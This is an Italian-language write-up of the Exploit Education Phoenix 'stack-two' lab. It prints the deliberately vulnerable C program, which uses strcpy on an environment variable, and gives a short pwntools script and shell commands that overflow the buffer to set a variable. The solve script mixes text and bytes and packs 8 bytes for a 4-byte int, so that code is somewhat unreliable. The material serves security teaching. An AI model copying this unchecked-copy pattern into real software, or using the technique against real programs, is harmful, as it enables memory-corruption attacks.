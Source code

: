### Descrizione del Codice

Il programma `stack_two.c` presenta una vulnerabilità di overflow del buffer che può essere sfruttata per sovrascrivere variabili in memoria utilizzando variabili d'ambiente.

### Funzionamento del Programma

1. Il programma legge il valore della variabile d'ambiente `ExploitEducation` e lo memorizza in `ptr`.
2. Se `ptr` è NULL, il programma termina con un messaggio di errore.
3. Il programma inizializza `changeme` a 0 e copia il contenuto di `ptr` in `buffer` utilizzando la funzione `strcpy`.
4. La funzione `strcpy` non controlla la lunghezza dell'input, il che può causare un overflow del buffer.
5. La funzione `main` verifica se la variabile `changeme` è stata impostata al valore specifico `0x0d0a090a`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `strcpy` senza controllare la lunghezza dell'input, il che può causare un overflow del buffer. Questo può essere sfruttato per sovrascrivere la variabile `changeme` con un valore specifico.

### Exploit

L'exploit sfrutta l'overflow del buffer per sovrascrivere la variabile `changeme` con il valore `0x0d0a090a`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}

Questo livello è identico al precedente, tranne che dobbiamo inserire l'exploit nella variabile d'ambiente ExploitEducation.

Soluzione:
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x0d0a090a)

print(buff)


Eseguiamo lo script e impostiamo la variabile d'ambiente:
$ export ExploitEducation=$(python solve.py)
$ /opt/phoenix/amd64/stack-two